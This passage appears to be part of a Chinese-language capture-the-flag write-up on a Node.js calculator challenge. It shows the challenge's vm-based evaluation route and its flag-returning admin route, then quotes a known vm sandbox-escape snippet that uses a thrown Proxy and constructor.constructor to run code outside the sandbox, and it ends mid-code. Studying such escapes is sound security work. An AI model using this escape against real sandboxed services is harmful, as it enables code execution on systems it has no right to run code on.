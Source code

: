 ``` js

    let result;
    try {
        result = vm.run(`return ${calc}`);
    }
    catch(err) {
        console.log(err);
        return res.render("index", { result: "There was an error running your calculation!"});
    }

    if(typeof result !== "number") {
        return res.render("index", { result: "Nice try..."});
    }

    res.render("index", { result });
});
```

而可以拿到 flag 的程式碼是這一段：

``` js
app.post("/admin", async (req, res) => {
    let { user, pass } = req.body;
    if(!user || !pass || typeof user !== "string" || typeof pass !== "string") {
        return res.render("admin", { error: "Missing username or password!" });
    }

    let hash = sha256(pass);
    if(users.filter(u => u.user === user && u.pass === hash)[0] !== undefined) {
        res.render("admin", { flag: await fsp.readFile("flag.txt") });
    }
    else {
        res.render("admin", { error: "Incorrect username or password!" });
    }
});
```

有關於 VM escape，我所知道的都是根據這個檔案：https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af

裡面有一些方式很有趣，例如說這一段：

``` js
////////
// Also, the vm code could throw an exception, with proxies on it.

const code5 = `throw new Proxy({}, {
  get: function(me, key) {
	 const cc = arguments.callee.caller;
	 if (cc != null) {
		(cc.constructor.constructor('console.log(sauce)'))();
	 }
	 return me[key];
  }
})`;


try {
  vm.runInContext(code5, vm.createContext(Object.create(null)));
}
catch(e) {
  // The following prints out 'laser' twice, (as side-effects of e
  // being converted to a string) followed by {}, which is the effect
  // of the console.log actually *on* this line printing out the
  // stringified value of the exception, which is in this case a
  // (proxy-wrapped) empty object.
  console.log(e);
```